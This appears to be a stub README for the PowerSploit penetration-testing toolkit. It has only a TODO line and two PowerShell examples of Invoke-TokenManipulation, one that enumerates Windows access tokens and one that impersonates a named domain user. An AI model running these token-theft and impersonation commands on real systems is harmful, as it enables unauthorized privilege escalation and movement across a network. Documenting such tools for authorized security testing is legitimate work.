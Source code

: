 # Powersploit

TODO: Write more information related to this powersploit module

```
PS C:\> Invoke-TokenManipulation -Enumerate

PS C:\> Invoke-TokenManipulation -ImpersonateUser -UserName "<domain>\<username>"
```